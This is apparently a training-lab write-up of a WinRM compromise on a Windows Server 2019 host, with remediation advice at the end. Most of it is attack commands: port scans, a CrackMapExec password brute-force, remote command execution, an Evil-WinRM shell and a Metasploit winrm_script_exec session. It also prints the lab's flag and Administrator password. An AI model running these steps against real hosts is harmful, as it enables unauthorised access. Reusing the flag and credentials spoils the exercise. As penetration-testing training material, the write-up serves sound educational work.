# WinRM: Exploitation with Metasploit

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** demo.ine.local (10.2.25.248) — SERVER, Windows Server 2019 (Build 17763)<br>
**Flag:** `3c716f95616eec677a7078f92657a230`

> The lab IP changed between sessions (`10.2.25.248` and later `10.2.18.45`); the method is
> identical — the credentials are `administrator:tinkerbell`.

## 1. Executive Summary

The target exposes **WinRM** on port 5985 (`/wsman`). A standard service scan misses it, so
we check the WinRM ports manually. CrackMapExec brute-forces the Administrator password and
runs commands; **Evil-WinRM** gives an interactive PowerShell shell; and Metasploit's
`winrm_script_exec` module turns the same credentials into a Meterpreter session, from which
we read the flag.

## 2. Recon

```bash
ping -c 4 demo.ine.local
nmap -sV 10.2.25.248
```





The default scan misses WinRM, so we check its ports directly — 5985 is open.

```bash
nmap -sV -p 5985,5986 demo.ine.local
```





## 3. CrackMapExec

```bash
crackmapexec winrm -h
crackmapexec winrm 10.2.25.248
```





Brute-forcing the Administrator account.

```bash
crackmapexec winrm 10.2.25.248 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```



```
server\administrator:tinkerbell (Pwn3d!)
```


Executing commands with the valid credentials.

```bash
crackmapexec winrm 10.2.25.248 -u administrator -p tinkerbell -x "whoami"
```





## 4. Evil-WinRM Shell

```bash
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.18.45
whoami              # server\administrator
```



## 5. Metasploit (winrm_script_exec)

```bash
search winrm_script
use exploit/windows/winrm/winrm_script_exec
set RHOSTS 10.2.25.248
set FORCE_VBS true
set USERNAME administrator
set PASSWORD tinkerbell
```



```bash
exploit
```





## 6. Capturing the Flag

```bash
sysinfo             # SERVER — Windows Server 2019
cd C:\
cat flag.txt
# 3c716f95616eec677a7078f92657a230
```



## 7. Remediation Recommendations

1. **Enforce strong passwords & lockout** — the Administrator password fell to a wordlist.
2. **Restrict WinRM** to trusted management hosts, require HTTPS (5986) and consider
   certificate/Kerberos auth instead of Basic/NTLM.
3. **Least privilege** for remote management accounts; use LAPS for unique local admin
   passwords.
4. **Monitor** WinRM logons and remote command execution (Event IDs 4624/400).
